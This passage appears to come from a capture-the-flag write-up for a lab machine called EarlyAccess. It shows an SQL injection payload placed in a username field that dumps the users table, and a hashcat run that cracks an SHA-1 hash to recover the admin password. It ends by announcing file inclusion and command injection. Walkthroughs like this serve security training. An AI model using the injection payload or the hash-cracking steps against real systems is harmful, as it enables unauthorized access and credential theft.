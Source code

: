 ### Dumping `users`

The username `tgihf') UNION SELECT id,password,name FROM users;--` dumps all of the users' usernames and password hashes.

![](images/Pasted%20image%2020220216170641.png)

Each hash is 40 characters long, indicating they are likely SHA-1 hashes.

### Cracking the Hashes

```bash
$ cat mamba-users.txt
618292e936625aca8df61d5fff5c06837c49e491
d997b2a79e4fc48183f59b2ce1cee9da18aa5476
584204a0bbe5e392173d3dfdf63a322c83fe97cd
290516b5f6ad161a86786178934ad5f933242361
$ hashcat -m 100 mamba-users.txt rockyou.txt
618292e936625aca8df61d5fff5c06837c49e491:gameover
```

`admin`'s password is `gameover`.

---

## `http://dev.earlyaccess.htb`

> Local file inclusion & command injection to low-privilege shell on `webserver`

The password `gameover` can be used to login as `admin` on `http://dev.earlyaccess.htb`. The development web application has two features: `Hashing-Tools` and `File-Tools`.
